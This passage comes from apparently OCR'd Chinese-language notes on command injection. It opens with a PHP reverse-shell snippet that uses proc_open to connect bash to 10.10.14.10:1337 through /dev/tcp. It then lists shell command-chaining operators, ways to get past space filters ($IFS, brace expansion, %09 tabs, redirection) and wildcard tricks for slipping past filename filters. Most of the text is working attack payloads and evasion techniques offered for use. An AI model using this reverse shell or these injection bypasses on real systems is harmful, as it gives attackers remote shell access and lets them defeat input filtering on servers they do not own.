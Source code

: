 #### 反弹shell

```php
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```



### 7.反引号

表示命令执行

### 8.eval（）

执行eval的参数

# 2.操作系统链接符

； 多个命令顺序执行，命令与命令之间相互独立

&多个命令顺序执行，命令与命令之间相互独立，&需要写为%26才有用

&& 前面命令执行成功则执行后面命令，前面错误后面也错误

| 将前面的输出作为后面命令的参数，只显示后面

|| 类似于if-else

# 3.空格过滤绕过

大括号{ls,-l}

$IF；S代替空格 $IFS、$IFS&2、$IFS9、${IFS}

重定向字符< , <>

%09(Tab)   %20(Space)

# 4.文件名过滤

### 1.通配符

? 代替一个字符

'*' 自动匹配星号后面的
